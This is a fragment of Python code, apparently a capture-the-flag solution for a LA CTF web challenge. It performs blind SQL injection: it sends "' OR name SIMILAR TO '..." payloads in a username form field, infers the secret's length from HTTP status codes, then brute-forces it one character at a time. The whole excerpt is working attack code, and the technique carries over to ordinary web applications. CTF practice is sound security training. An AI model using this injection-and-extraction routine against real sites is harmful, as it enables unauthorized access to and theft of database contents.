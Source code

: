 ```python
        self.PREPENDED_FLAG = 'lactf{'
        self.PREPENDED_FLAG_LENGTH = len(self.PREPENDED_FLAG)
        self.APPENDED_FLAG = '}'
        self.APPENDED_FLAG_LENGTH = len(self.APPENDED_FLAG)

    def leakFlagStringLength(self):
        for length in range(1, 100):
            print(f'[*] Finding flag string length | Current length: {length}', end='\r')

            payload = f"' OR name SIMILAR TO '{self.WILDCARD_CHARACTER * length}"
            data = {
                'username': payload
            }
            
            response = requests.post(f'{self.baseUrl}{self.SUBMIT_ROUTE}', data=data)
            isFailed = True if response.status_code == 201 else False
            if isFailed:
                continue
            if length == self.EXCLUDED_NAMES_LENGTH[0] or length == self.EXCLUDED_NAMES_LENGTH[1]:
                if length == self.EXCLUDED_NAMES_LENGTH[0]:
                    print(f'[*] Length {length} returned boolean value True, but the length is same as the database\'s penguin name "{self.EXCLUDED_NAMES[0]}"')
                elif length == self.EXCLUDED_NAMES_LENGTH[1]:
                    print(f'[*] Length {length} returned boolean value True, but the length is same as the database\'s penguin name "{self.EXCLUDED_NAMES[1]}"')

                continue

            return length

    def leakFlagData(self, flagStringLength):
        leakedFlag, formattedFlag = str(), str()
        while len(formattedFlag) < flagStringLength:
            formattedFlag = self.PREPENDED_FLAG + leakedFlag + self.APPENDED_FLAG
            if len(formattedFlag) == flagStringLength:
                break

            for character in self.ALLOWED_CHARS:
                print(f'[*] Brute forcing character "{character}" | Current leaked flag: {formattedFlag}', end='\r')

                regexCharacters = leakedFlag + character
                charactersLeft = flagStringLength - self.PREPENDED_FLAG_LENGTH - self.APPENDED_FLAG_LENGTH - len(regexCharacters)

                regexPattern = self.WILDCARD_CHARACTER * self.PREPENDED_FLAG_LENGTH
                regexPattern += regexCharacters
                regexPattern += self.WILDCARD_CHARACTER * charactersLeft
                regexPattern += self.WILDCARD_CHARACTER * self.APPENDED_FLAG_LENGTH

                payload = f"' OR name SIMILAR TO '{regexPattern}"
                data = {
                    'username': payload
                }
                response = requests.post(f'{self.baseUrl}{self.SUBMIT_ROUTE}', data=data)
                isFailed = True if response.status_code == 201 else False
                isLastCharacter = True if character == self.ALLOWED_CHARS[-1] else False
                isFailedLastCharacter = True if isFailed and isLastCharacter else False

                # if we loop through all possible character and still failed, 
                # we can assume that the correct flag character is the underscore character
                if isFailedLastCharacter:
                    leakedFlag += self.WILDCARD_CHARACTER
```